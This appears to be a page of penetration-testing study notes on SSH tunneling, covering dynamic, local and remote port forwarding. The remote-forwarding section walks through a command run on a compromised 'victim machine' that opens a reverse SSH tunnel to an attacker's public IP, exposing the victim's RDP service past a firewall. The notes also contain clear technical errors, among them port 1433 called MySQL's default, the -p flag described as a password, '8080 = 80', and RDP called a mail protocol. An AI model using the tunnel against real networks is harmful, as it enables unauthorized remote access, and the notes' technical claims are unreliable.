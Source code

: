 # 5.2 SSH Tunneling

## SSH Tunneling

![](../.gitbook/assets/image%20%2835%29.png)

* Here the,
  * delivery protocol is SSH on port 22.
  * and main communication happens on port 1433 \(default MySQL port\).

## There are three ways of SSH tunneling

1. Dynamic SSH tunneling
2. Local port forwarding using SSH tunneling
3. Remote port forwarding using SSH tunneling

## Dynamic SSH tunneling

* We need to setup a SOCKS proxy,
  * We first need a **proxy server on client side**.
  * We then need to configure the other end of the communication to accept traffic.
* We then need to either configure all application configurations manually or automatically to "tell all applications to use the client side SOCKS proxy for communication". 
* So all the requests of internet are now sent to proxy.

### Dynamic SSH tunneling using SSH

```text
ssh -D 85 user@192.168.1.1
```

* The above commands configures an SSH Tunnel
  * -D bind port. Which specifies the delivery connection port.
  * one end \(local\) of the SSH tunnel is the system where the above command is executed. the other end is 192.168.1.1 using username "user".

![SSH -D option description](../.gitbook/assets/image%20%2810%29.png)

![SSH Tunneling - Dynamic](../.gitbook/assets/image%20%2826%29.png)

* Here,
  * the delivery protocol is 22 \(SSH\)
  * and main communication protocol is 844.
* Examples of dynamic SSH tunneling are
  * Psiphon
  * Tor Browser

## SSH tunneling Local Port forwarding

* Unlike Dynamic SSH proxy server we do not have to create a client side proxy server here. Infact we do not need a proxy server. All things are done by SSH tunneling itself. 
* On our client machine we will open URL _http://127.0.0.1:8080_.
* Note that 8080 = 80. Actually by 8080 we are just asking to use http service.
* This request will be internally tunneled on port 53 by configured SSH tunnel.
* We have a similar relay server which helps as communicator.

![SSH Tunneling - Local Port forwarding](../.gitbook/assets/image%20%2819%29.png)

### Example of local port forwarding

1. Remote desktop \(using vnc for ubuntu\)

## SSH Tunneling Remote Port forwarding

* Given we RDP ports are not allowed through firewall means 3389 and 2290 are blocked at firewall level.
* And given only port 53 is allowed.
* Given that the victim machine has RDP services active and running on port 3389.
* We will use SSH port tunneling technique to talk directly to the server. We do not need relay server in this kind of exploits.

### Working

* Suppose we have got access to victim machine which is inside a protect environment. The victim machine has a private IP address, so we cannot directly access RDP of machine.
* Given that in victim machine RDP service \(3389\) is running.
* We first create a reverse SSH Tunnel for tunneling port 3389 \(RDP port\). We need to run this command on the victim machine.
  * `ssh -R 7000:127.0.0.1:3389 user@212.33.40.5 -p abcd1234`
    * `abcd1234` is the password of the attacker machine
    * `212.33.40.5` is a public IP address of the attacker machine
    * `3389` is the mail communication protocol. The service is running on victim system.
    * `7000` is the port which the attacker will use to access the tunneled RDP connection.
* Once the SSH tunnel is created, a service is automatically started on the attacker machine \(note that we specified username and password of attacker machine\). 
  * `service : 0.0.0.0:7000`
* Now to access the remote console of the victim system.
  * `rdesktop 127.0.0.1:7000`

![](../.gitbook/assets/image%20%2837%29.png)



